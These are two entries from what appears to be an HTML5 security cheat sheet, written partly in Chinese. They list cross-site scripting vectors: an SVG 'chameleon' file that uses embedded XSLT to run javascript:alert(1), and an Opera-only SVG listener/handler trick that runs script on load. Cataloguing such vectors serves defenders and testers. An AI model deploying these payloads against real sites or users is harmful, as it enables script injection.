 This SVG chameleon file can be embedded via <embed> on most, and via <img> on most modern browsers. Thanks to the embedded XSLT stylesheet, it will change it's appearance, depending on how it is embedded or displayed. In an <img> tag it just shows a red dot. But opened directly or via an <iframe> or <embed>, the XSLT turns all SVG into (X)HTML and an alert will show. While most modern browsers show this behavior, Opera will completely mess it up, and show an alert when used via <embed> and an <iframe> when used via <img> (!). Chrome will show a broken image and an alert.

```
<?xml version="1.0"?> <?xml-stylesheet type="text/xml" href="#stylesheet"?> <!DOCTYPE doc [ <!ATTLIST xsl:stylesheet id ID #REQUIRED>]> <svg > <xsl:stylesheet id="stylesheet" version="1.0" > <xsl:template match="/"> <iframe  src="javascript:alert(1)"></iframe> </xsl:template> </xsl:stylesheet> <circle fill="red" r="40"></circle> </svg> 
```

*   internet explorer 9.0
*   internet explorer latest

*   firefox 3.x

*   firefox latest

*   svg

*   html
*   chameleon
*   xslt
*   embedded
*   xss

*   [`www.w3.org/Graphics/SVG/`](http://www.w3.org/Graphics/SVG/)

*   [`www.w3.org/TR/xslt`](http://www.w3.org/TR/xslt)
*   [`www.dpawson.co.uk/xsl/sect2/onefile.html`](http://www.dpawson.co.uk/xsl/sect2/onefile.html)

reporter：.mario

### Opera 中通过 listener 执行 JavaScript 代码#127test

示例向量，与#94 相关，展示了 listener 标签和 handler 标签的组合是如何被利用，从 SVG 元素中加载事件去触发 JavaScript，使其执行。到目前为止，只有 Opera 支持 XML 事件和相关元素。不需要用户交互即可执行 JavaScript 语句。

```
<svg  id="x"> <listener event="load" handler="#y"  observer="x"/> <handler id="y">alert(1)</handler> </svg> 
```

*   opera 9.0
*   opera 12.0

*   svg

*   opera
*   xml
*   events
*   listener
*   handler
*   xss

*   [`www.opera.com/docs/specs/presto29/svg/elements/`](http://www.opera.com/docs/specs/presto29/svg/elements/)

*   [`www.w3.org/TR/SVGMobile12/script.html#ListenerElement`](http://www.w3.org/TR/SVGMobile12/script.html#ListenerElement)
*   [`www.w3.org/TR/2010/NOTE-xml-events2-20101216/Overview.html#section-eventhandlers`](http://www.w3.org/TR/2010/NOTE-xml-events2-20101216/Overview.html#section-eventhandlers)
*   #85
*   #94
*   #104
